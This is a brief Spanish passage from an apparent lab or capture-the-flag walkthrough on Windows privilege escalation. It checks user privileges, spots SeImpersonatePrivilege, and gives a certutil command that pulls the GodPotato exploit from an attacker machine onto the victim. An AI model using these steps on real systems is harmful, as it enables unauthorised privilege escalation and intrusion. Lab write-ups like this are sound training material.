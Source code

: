 Verificamos los permisos de este usuario:

```powershell
whaomi /all
```

Pero con cuidado, que tenemos aquí, un permiso de tipo **SeImpersonatePrivilege** 

El **SeImpersonatePrivilege** es un privilegio de seguridad en Windows que permite a un proceso actuar en nombre de otro usuario o cuenta. Aquí te explico sus características principales:

![paste](./images/45.jpeg)

Para ir a tiro hecho, usaremos la herramienta de GodPotato aqui se muestra como la puedes transferir de tu maquina atacante a la maquina victima :

```powershell
certutil -urlcache -f http://10.10.16.5:8000/GodPotato-NET4.exe gp.exe
```

![paste](./images/46.jpeg)
